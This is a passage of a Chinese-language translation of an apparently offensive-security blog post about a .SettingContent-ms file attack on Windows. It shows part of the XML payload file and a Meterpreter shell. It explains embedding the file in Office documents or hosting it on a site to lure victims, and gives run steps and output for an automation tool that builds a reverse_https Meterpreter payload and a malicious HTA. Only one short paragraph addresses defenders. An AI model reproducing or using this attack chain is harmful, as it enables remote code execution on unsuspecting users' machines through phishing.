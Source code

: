 ```
      &lt;Description&gt;@shell32.dll,-4161&lt;/Description&gt;
      &lt;Keywords&gt;@shell32.dll,-4161&lt;/Keywords&gt;
    &lt;/SettingInformation&gt;
  &lt;/SearchableContent&gt;
&lt;/PCSettings&gt;
```

保存并双击文件后，我们就可以获得一个shell！

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.trustedsec.com/wp-content/uploads/2018/06/dk5.png)

图5 – Meterpreter成功进行Shell访问

攻击成功！显然，在这个例子中我们使用了Metasploit，但是这几乎可以用于任何你想用的payload。MSHTA只是远程下载并且能在517的字符大小限制内执行代码的一个示例。另外，您可以轻松地将这些内容嵌入到Office文档中并将其发送出去，一旦对方打开，您就可以攻破对方电脑。您还可以在网站上托管这些扩展类型，并诱使用户单击链接。如果你想变得狡猾，改变图标和其他东西可能会有所帮助。下面是一个简单的站点，其中包含下载和执行的链接（只是一个普通的链接）：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://www.trustedsec.com/wp-content/uploads/2018/06/dk6.png)

图6 – 带链接的简单站点

注意，下载的是托管的SettingContent-ms文件。一旦打开，它将以类似的方式攻破系统。

对于防御者而言，最好且最简单的做法就是阻止系统从外部加载.SettingContent-ms类型的文件（阻止基于Web的攻击），或者在下载或执行任何文件时弹出告警。此外，可以将.SettingContent-ms的文件关联类型更改为记事本或其他不执行代码的软件。

如果你想要一个自动化攻击的工具，我已经写了一个auto_settingcontent-ms.py的快速工具，它会自动为你创建Metasploit有效载荷（payload），HTA文件和Test.SettingContent-ms文件。这假设您已经安装了Metasploit，Python和Apache。请注意，这只是一个例子，还有很多其他方法，这只是一个简单的POC。

要运行，首先从github克隆auto_settingcontent-ms，然后运行它：

```
git clone https://github.com/trustedsec/auto_SettingContent-ms
cd auto_SettingContent-ms
```

一旦下载完脚本，我们就可以运行它并生成我们的文件。

```
root@stronghold:/home/relik/Desktop/git/auto_settingcontent-ms# python auto_settingcontent-ms.py
```

这是一个简单的脚本，它将生成一个.SettingContent-ms文件，该文件可用于在系统上执行命令/代码。该文件可以嵌入到Office文档中，也可以托管在网站上并诱使受害者点击来获得代码执行。这只是一个结合Metasploit使用的POC。你可以使用任何你想使用的payload，在这个例子中我们使用windows/meterpreter/reverse_https。

```
root@stronghold:/home/relik/Desktop/git/auto_settingcontent-ms# python auto_settingcontent-ms.py 
Credit to: Matt Nelson (@enigma0x3) from SpecterOps
Great read here: https://posts.specterops.io/the-tale-of-settingcontent-ms-files-f1ea253e4d39
Written by: David Kennedy (@HackingDave, @TrustedSec)

Version 0.1
Enter the reverse shell IP address: 192.168.5.5
Enter the port for the reverse shell: 443
Cloning into 'unicorn'...
remote: Counting objects: 340, done.
remote: Total 340 (delta 0), reused 0 (delta 0), pack-reused 340
Receiving objects: 100% (340/340), 163.94 KiB | 0 bytes/s, done.
Resolving deltas: 100% (215/215), done.
Checking connectivity... done.
[*] Generating the payload shellcode.. This could take a few seconds/minutes as we create the shellcode...
[*] Exported Test.SettingContent-ms to this folder. Moved over LICENSE.txt (malicious HTA) and setup the SettingContent-ms to point to the Apache server hosting this under /var/www/html
[*] To launch the Metasploit listener, run msfconsole -r unicorn.rc
root@stronghold:/home/relik/Desktop/git/auto_settingcontent-ms#

```